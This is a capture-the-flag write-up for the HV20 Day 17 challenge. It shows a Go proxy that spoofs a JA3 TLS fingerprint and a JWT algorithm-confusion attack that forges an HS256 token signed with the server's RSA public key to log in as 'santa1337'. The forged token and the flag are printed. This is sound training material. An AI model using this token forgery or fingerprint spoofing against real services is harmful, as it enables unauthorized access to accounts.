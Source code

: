 [← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)


# Day 17 / HV20.17 Santa's Gift Factory Control



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: fix86
* Tags:   `#crypto` `#web-security`
* Level:  Hard

Santa has a customized remote control panel for his gift factory at the north
pole. Only clients with the following fingerprint seem to be able to connect:

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`


### Mission

Connect to Santa's super-secret control panel and circumvent its access
controls.

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/)


### Hints

* If you get a `403 forbidden`: this is part of the challenge
* The remote control panel does client fingerprinting
* There is an information leak somewhere which you need to solve the challenge
* The challenge is not solvable using brute force or injection vulnerabilities
* Newlines matter, check your files



## Solution


### Overcoming the 403

Searching the web for the finger print number from the challenge description
unveils that it's a [JA3 finger print](https://github.com/salesforce/ja3).

There is only one project discoverable on the web that provides the means to
mimic a JA3 finger print. It's called [JA3Transport] and it's written in Go.
Here is a [blog post] kind of article about impersonating JA3 finger prints.

[JA3Transport]: https://github.com/cucyber/JA3Transport
[blog post]: https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42

The project was used to ultimately build a proxy (thanks again _mcia_) thus
enabling to use a standard web browser while impersonating the JA3 finger print …

```go
package main

import (
	"fmt"
	"github.com/CUCyber/ja3transport"
	"log"
	"net/http"
	"net/http/httputil"
	"net/url"
)

func main() {
	// start proxy
	http.HandleFunc("/", Proxy)
	fmt.Println("About to listen on port 8081...")
	log.Fatal(http.ListenAndServe(":"+"8081", nil))
}

func Proxy(res http.ResponseWriter, req *http.Request) {
	uri := "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land"
	serveReverseProxy(uri, res, req)
}

func serveReverseProxy(target string, res http.ResponseWriter, req *http.Request) {
	// parse the url
	uri, _ := url.Parse(target)
	tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")

	proxy := httputil.NewSingleHostReverseProxy(uri)
	proxy.Transport = tr
	proxy.ServeHTTP(res, req)
}
```

Now that the page is accessible, it looks like this …

![](screenshot_login.png)


### Searching and finding an additional angle

After erratic attempts to find any aspect about this web page that could be
leveraged, finally the topic [JSON Web Token] came into the focus of attention.

[JSON Web Token]: https://en.wikipedia.org/wiki/JSON_Web_Token

While trying to login with the credentials `admin`/`admin`, two noticeable
things happened:

1. The browser was suddenly given a JSON Web Token cookie.
2. There was a strange message in the HTML source code …

   `<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`

   This is probably the info leak that is mentioned in the challenge hints.

There exists a set of [critical vulnerabilities regarding JSON Web Tokens][vuls]
that are – at least to me – astounding. The vulnerability that is used for this
challenge is the sweetest of the bunch.

[vuls]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

In a [JSON Web Token] there are at least the following two methods to sign and
verify a token: _RSA_ and _HMAC_. 

With _HMAC_ the idea is that the signing key is kept secret and is used only by
the server to verify authenticity.

With _RSA_ the signing key is a secret private key and the verification key is
a public key. Not only the server but everybody can verify the authenticity of
such tokens. The URL to the public key is even part of the token.

The vulnerability originates in the fact that the server side library that
handles the tokens can be told by the user that any given token was not signed
with the _RSA_ method (as previously published by the server) but was signed
with the _HMAC_ method. The fatality about this is that the server will
automatically assume, that the public _RSA_ key is a private _HMAC_ key and
will use it to verify the token. And since that key is public to anyone, the
attacker can use it to sign arbitrary tokens. How cool is that ? `(o_O)`


### Cookie modding

The genuine cookie that was received from the server is decoded into the
following structure …

```json
Header:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "/keys/1d21a9f945"
}

Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "none"
}

Signature:
{
   [some bytes]
}
```

Next the public key is retrieved from the server …

```
$ curl -O http://localhost:8081/keys/1d21a9f945"
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----
```

At last a new cookie is forged (with the help of [CyberChef]) intentionally with
the _wrong_ signing method _HMAC_. This produces the following cookie header and
payload …

[CyberChef]: https://gchq.github.io/CyberChef/#recipe=JWT_Sign('-----BEGIN%20PUBLIC%20KEY-----%5CnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY%5CnRi7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb%5CnSYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs%2B2tmcgui/bFn%5CnwC%2BqByZtIlsP%2BrlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3%5CnUS8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq%2BtH95/9u%5CnX/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw%5CnzwIDAQAB%5Cn-----END%20PUBLIC%20KEY-----%5Cn','HS256')&input=ewogICJleHAiOiAxNjA5NDE2NTAyLAogICJpYXQiOiAxNjA5NDEyOTAyLAogICJzdWIiOiAic2FudGExMzM3Igp9

```json
Header:
{
  "alg" : "HS256",
  "typ" : "JWT"
}

Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "santa1337"
}
```

The completely encoded cookie …

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2MDk0MTY1MDIsImlhdCI6MTYwOTQxMjkwMiwic3ViIjoic2FudGExMzM3In0.8QCk0LVJEEf-zieqEE6DPf3QM8nAgYmSqTw9Pei8Jvc
```

… is used to replace the cookie that was received from the server earlier.

Et voilà, the server thinks it's Santa and gives access:

![](screenshot_access.png)

The flag is in a comment in the HTML source code:

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
    <body class="loggedin">
        <nav class="navtop">
            <div>
```

--------------------------------------------------------------------------------

Flag: `HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

[← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)
